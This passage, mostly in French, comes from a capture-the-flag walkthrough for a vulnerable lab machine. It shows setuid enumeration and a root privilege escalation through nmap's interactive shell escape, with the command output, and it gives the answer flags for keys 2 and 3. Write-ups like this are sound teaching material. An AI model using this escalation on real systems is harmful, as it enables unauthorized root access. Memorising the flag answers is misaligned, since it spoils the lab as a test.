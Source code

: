On stabilise  le shell.   
Avec les identifiants trouvés on se connecte sur robot.   
On lit le fichier key-2-of-3.txt et on trouve le 2eme flag.  

La réponse est : 822c73956184f694993bede3eb39f959   

**What is key 3?**

```bash
robot@linux:~$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```

On regarde les fichiers setuid.
Le fichier nmap sort du lot.  

```bash
robot@linux:~$ /usr/local/bin/nmap --interactive
/usr/local/bin/nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# id
id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
# ls /root/
ls /root/
firstboot_done	key-3-of-3.txt
# cat /root/key-3-of-3.txt
cat /root/key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4

 ```

On exploite nmap en mode interactif. [gtfobins](https://gtfobins.github.io/gtfobins/nmap/)
On obtient un shell qui a les droits root.    
On lit le dernier fichier key-3-of-3.txt.  

La réponse est : 04787ddef27c3dee1ee161b21670b4e4    